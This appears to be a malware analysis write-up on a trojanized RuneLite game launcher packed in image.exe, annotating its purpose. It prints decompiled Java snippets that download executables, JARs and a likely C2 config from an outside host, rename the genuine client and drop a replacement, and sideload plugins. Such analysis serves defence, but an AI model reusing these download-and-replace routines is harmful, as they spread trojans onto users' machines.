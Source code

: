 From the manifest file inside image.exe, we can see the following metadata:
```java
Manifest-Version: 1.0  
Created-By: Maven Jar Plugin 3.2.0  
Build-Jdk-Spec: 17  
Main-Class: net.runelite.launcher.Launcher
```
This tells us the entry point of the application is net.runelite.launcher.Launcher, so I proceeded to analyze this class in detail.

Turns out, the code is not obfuscated and it is easy to read.

- 💀 **Malicious Code Injection**<br>
The Launcher class (decompiled from a .class file) contains modified logic to fetch and execute malicious payloads:
Malicious Downloads
{%- highlight java -%}
// Downloads a fake RuneLite.exe
InputStream in8 = (new URL("https://stellaspicy.org/gamefiles/RuneLite.exe")).openStream();
Files.copy(in8, winExe.toPath(), StandardCopyOption.REPLACE_EXISTING);

// Downloads additional JARs (likely malicious plugins)
InputStream in3 = (new URL("https://stellaspicy.org/gamefiles/example-5.4.jar")).openStream();
Files.copy(in3, LOADTHIS.toPath(), StandardCopyOption.REPLACE_EXISTING);
{%- endhighlight -%}

OS-Specific Payloads<br>
- Windows:
    - Replaces RuneLite.exe with a malicious version.
    - Drops EthanVannInstaller.jar (unknown purpose).
    - Downloads hussdfs.jar (possible RAT/keylogger).<br>
- MacOS:
    - Similar behavior but with macOS-specific paths (/Applications/RuneLite.app/).<br><br>
    
    
- 🛠️ **Persistence & Evasion Techniques**<br>
File Replacement:
```java
File existingExe = new File(WIN_INSTALLER_PATH, "RuneLite.exe");
File renamedExe = new File(WIN_INSTALLER_PATH, "RuneLite1.exe");
if (existingExe.exists()) {
    Files.move(existingExe.toPath(), renamedExe.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
```

Renames the legitimate executable before dropping the malicious one.

Sideloading Malicious Plugins:
```java
SIDELOAD = new File(RUNELITE_DIR, "sideloaded-plugins");
LOADTHIS = new File(SIDELOAD, "Externals.jar");
Loads external JARs (likely malware or spyware).
```
- 🌐 **Network Communication**<br>

The malware connects to stellaspicy.org to fetch:
- RuneLite.exe (Trojanized client)
- EthanVannInstaller.jar (Unknown malicious JAR)
- hussdfs.jar (Possible backdoor)
- config.json (Likely C2 configuration)
```java
// Downloads a configuration file (possibly C2 settings)
in3 = (new URL("https://stellaspicy.org/gamefiles/config.json")).openStream();
Files.copy(in3, windowsJson.toPath(), StandardCopyOption.REPLACE_EXISTING);
```
